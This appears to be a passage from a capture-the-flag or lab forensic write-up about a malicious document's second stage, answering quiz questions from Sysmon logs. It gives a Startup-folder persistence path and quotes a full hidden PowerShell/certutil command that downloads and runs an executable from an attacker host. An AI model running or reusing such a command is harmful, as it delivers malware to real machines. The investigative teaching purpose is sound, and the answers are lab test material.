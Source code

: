 ### Malicious Document - Stage 2
#### 7. Full Target Path of Payload
**Question**: The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?

**Answer**: `C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

**Investigation**: Sysmon logs (Event ID 11) showed file creation in the Startup folder, triggered by the decoded base64 payload, indicating Autostart execution.

**Screenshot**: ![Target Path](screenshots/7.png)

#### 8. Executed Command on Login
**Question**: The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user? (Format: Remove the double quotes from the log)

**Answer**: `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni certutil -urlcache -split -f http://phishteam.xyz/02dcf07/first.exe C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe`

**Investigation**: Decoded the base64 string from Sysmon logs (line 131) and confirmed the command executed by `explorer.exe` (parent process) post-login, using Sysmon Event ID 1.
